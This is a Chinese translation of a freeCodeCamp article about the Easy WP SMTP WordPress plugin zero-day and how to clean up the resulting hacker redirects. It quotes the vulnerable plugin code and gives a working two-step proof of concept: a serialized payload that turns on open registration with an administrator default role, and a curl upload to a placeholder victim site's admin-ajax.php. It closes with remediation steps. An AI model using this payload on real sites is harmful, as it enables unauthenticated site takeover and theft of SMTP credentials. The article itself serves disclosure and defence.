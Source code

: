 # 如何消除黑客对 WordPress 的重定向——看看易 WP SMTP 插件漏洞

> 原文：<https://www.freecodecamp.org/news/how-to-remove-the-wordpress-redirects-by-hackers-easy-wp-smtp-plugin-vulnerability-41dc56f9b3aa/>

由阿特曼·拉特霍德

# **如何清除黑客对 WordPress 的重定向——看易 WP SMTP 插件漏洞**

![3UOMjtEARTMTo86Rjj4wNtoXzSuS1DUnCCPb](img/baf147390b848394f21a969277fd98e4.png)

我相信，如果你发现你的网站被重定向到一个垃圾网站，你会感到被冒犯，不是吗？唉！如果你为你的 WordPress 网站采取了所有预防措施，你甚至会感到更受冷落。真的吗？在这个数字世界中，每天有 30，000 个网站被黑客攻击，今天可能就是你的一天。因此，当务之急是为袭击之日找到解决方案。

首先，您需要确定攻击者如何能够插入恶意代码，以便网站重定向到网络钓鱼或恶意软件网站并获取流量。最近，当我们面临同样的问题时，我们发现黑客通过 WP SMTP 插件获得了访问权限。

众所周知的 Easy WP SMTP 插件每月有 30 万次活跃安装，容易出现零日漏洞。它给了一个未知用户访问和修改 WordPress 设置的权利。

> “几乎 30%的在线网站是用 WordPress 开发的，这使它成为最好的内容管理系统。然而，如果我们看看人气阴影，那么它就成了黑客的首选。”

由于最近揭露的[零日(0-day)](https://en.wikipedia.org/wiki/Zero-day_(computing)) [漏洞](https://db.threatpress.com/vulnerability/easy-wp-smtp/wordpress-easy-wp-smtp-plugin-1-3-9-unauthenticated-arbitrary-wp-options-import-vulnerability)，Easy WP SMTP 插件越来越受欢迎。下载量高的插件攻击成功率更高。在学习解决方案之前，让我们详细了解一下这个插件。

#### **Easy WP SMTP 插件零日漏洞**

![pY8-qc6eryh0jep4vi0kDLmltRcaNBdhXIlc](img/85c200e672e69d252caf3b8ac5a0930f.png)

Easy WP SMTP 的出现使得从你的 WordPress 网站发送电子邮件变得容易。即使它的目的是通过 SMTP 而不是本机 [wp_mail()](https://developer.wordpress.org/reference/functions/wp_mail/) 函数发送邮件，它也是成功的。

像其他 WordPress 插件一样，Easy WP SMTP 插件有自己的管理页面，可以让你指定 SMTP 配置所需的数据。与此同时，还有一个导入和导出设置的功能，这是黑客可以轻松进入的地方。

除此之外，还有几个攻击媒介会将攻击者引向管理员级别或 SMTP 凭证等[敏感数据泄漏](https://blog.threatpress.com/check-sensitive-information-leakage/)。

考虑以下代码:

```
add_action( 'admin_init', array( $this, 'admin_init' ) );......function admin_init() { if ( defined( 'DOING_AJAX' ) && DOING_AJAX ) {   add_action( 'wp_ajax_swpsmtp_clear_log', array( $this, 'clear_log' ) );   add_action( 'wp_ajax_swpsmtp_self_destruct', array( $this, 'self_destruct_handler' ) ); }
```

```
//view log file if ( isset( $_GET[ 'swpsmtp_action' ] ) ) {     if ( $_GET[ 'swpsmtp_action' ] === 'view_log' ) {  $log_file_name = $this->opts[ 'smtp_settings' ][ 'log_file_name' ];  if ( ! file_exists( plugin_dir_path( __FILE__ ) . $log_file_name ) ) {      if ( $this->log( "Easy WP SMTP debug log file\r\n\r\n" ) === false ) {   wp_die( 'Can\'t write to log file. Check if plugin directory  (' . plugin_dir_path( __FILE__ ) . ') is writeable.' );      };  }  $logfile = fopen( plugin_dir_path( __FILE__ ) . $log_file_name, 'rb' );  if ( ! $logfile ) {      wp_die( 'Can\'t open log file.' );  }  header( 'Content-Type: text/plain' );  fpassthru( $logfile );  die;     } }
```

```
//check if this is export settings request $is_export_settings = filter_input( INPUT_POST, 'swpsmtp_export_settings', FILTER_SANITIZE_NUMBER_INT ); if ( $is_export_settings ) {     $data      = array();     $opts      = get_option( 'swpsmtp_options', array() );     $data[ 'swpsmtp_options' ]   = $opts;     $swpsmtp_pass_encrypted    = get_option( 'swpsmtp_pass_encrypted', false );     $data[ 'swpsmtp_pass_encrypted' ]  = $swpsmtp_pass_encrypted;     if ( $swpsmtp_pass_encrypted ) {  $swpsmtp_enc_key   = get_option( 'swpsmtp_enc_key', false );  $data[ 'swpsmtp_enc_key' ]  = $swpsmtp_enc_key;     }     $smtp_test_mail    = get_option( 'smtp_test_mail', array() );     $data[ 'smtp_test_mail' ]  = $smtp_test_mail;     $out     = array();     $out[ 'data' ]    = serialize( $data );     $out[ 'ver' ]    = 1;     $out[ 'checksum' ]   = md5( $out[ 'data' ] );
```

```
$filename = 'easy_wp_smtp_settings.txt';     header( 'Content-Disposition: attachment; filename="' . $filename . '"' );     header( 'Content-Type: text/plain' );     echo serialize( $out );     exit; }
```

```
$is_import_settings = filter_input( INPUT_POST, 'swpsmtp_import_settings', FILTER_SANITIZE_NUMBER_INT ); if ( $is_import_settings ) {   $err_msg = __( 'Error occurred during settings import', 'easy-wp-smtp' );   if ( empty( $_FILES[ 'swpsmtp_import_settings_file' ] ) ) {   echo $err_msg;   wp_die();  }  $in_raw = file_get_contents( $_FILES[ 'swpsmtp_import_settings_file' ][ 'tmp_name' ] );  try {   $in = unserialize( $in_raw );   if ( empty( $in[ 'data' ] ) ) {     echo $err_msg;     wp_die();   }   if ( empty( $in[ 'checksum' ] ) ) {     echo $err_msg;     wp_die();   }   if ( md5( $in[ 'data' ] ) !== $in[ 'checksum' ] ) {     echo $err_msg;     wp_die();   }   $data = unserialize( $in[ 'data' ] );   foreach ( $data as $key => $value ) {     update_option( $key, $value );   }   set_transient( 'easy_wp_smtp_settings_import_success', true, 60 * 60 );   $url = admin_url() . 'options-general.php?page=swpsmtp_settings';   wp_safe_redirect( $url );   exit;  } catch ( Exception $ex ) {   echo $err_msg;   wp_die();  } }}
```

当用户想要进入管理区域时，通过 admin_init 钩子调用脚本 easy-wp-smtp.php 中的函数 admin_init()。这有助于管理员编辑每一个功能，从添加或删除日志到导入或导出 WordPress 数据库中的插件配置。

当您调用该函数时，它不会检查用户能力，因此任何登录的用户都可以触发它。这里的限制是，它可以由任何未经认证的用户实现，因为 Easy WP SMTP 是使用 AJAX 构建的，admin_init hook 也可以在 admin-ajax.php 上实现，如 WordPress API 文档中所述。

因此，现在未经身份验证的用户可以很容易地发送一个 AJAX 请求，例如 action=swpsmtp_clear_log，来调用上述函数并运行代码。

因此，为了保护您的网站，我们建议您始终将 Easy WP SMTP 插件更新到可用的最新版本。

#### **记下概念证明**

以下两步概念验证允许您创建一个用户 ID，您可以在其中访问 admin 并进行更改以删除恶意软件代码。简而言之，它允许你完全控制网站。

这里，您需要使用 swpsmtp_import_settings 来上传一个包含恶意序列化负载的文件。该文件帮助用户在数据库中注册并设置默认角色为“管理员”。

**1。创建一个名为“/tmp/upload.txt”的文件，并将此内容添加到其中:**

```
a:2:{s:4:”data”;s:81:”a:2:{s:18:”users_can_register”;s:1:”1";s:12:”default_role”;s:13:”administrator”;}”;s:8:”checksum”;s:32:”3ce5fb6d7b1dbd6252f4b5b3526650c8";}
```

**2。上传文件:**

```
$ curl https://VICTIM.COM/wp-admin/admin-ajax.php -F ‘action=swpsmtp_clear_log’ -F ‘swpsmtp_import_settings=1’ -F ‘swpsmtp_import_settings_file=@/tmp/upload.txt’
```

**其他需要注意的细节:**

*   通过 PHP 对象注入处理远程代码执行，因为 Easy WP SMTP 使用不安全的 unserialize()调用运行。
*   标记在不同的日志上，因为黑客可以更改日志文件名。
*   通过导出包括 SMTP 主机、用户名和密码的插件配置，黑客可以用它来发送垃圾邮件。

#### **清除恶意软件的步骤 WordPress 重定向**

![emHZv0hE0Qgnu-arznDXKGFsDSxccoxKE98u](img/d93ec2e2c918a5c32be7d7c7d422f7e9.png)

*   更改密码并检查注册用户
*   找到并删除网站上不需要的插件和主题
*   使用适当的工具彻底检查网站
*   找到合适的 WordPress 插件来扫描你的网站文件
*   彻底检查所有受影响的文件
*   重新安装你的 WordPress 文件、插件和主题
*   将网站重新提交给谷歌

#### **其他重要建议**

如果您使用的是旧版本的 Easy WP SMTP 插件，请检查以下事项:

*   检查设置页面，确保从 URL 到用户默认角色没有任何错误。
*   检查新的管理员帐户，电子邮件地址和更多。
*   更改所有密码
*   也改变你的 SMTP 密码，因为黑客现在可能有密码。
*   安装 web 应用程序防火墙以获得更好的安全性。
*   确保你不安装未知的插件或主题
*   每月更新你所有的主题和插件
*   确保定期备份 WordPress 的安装
*   如果需要的话，把网站主机换成安全性更好的。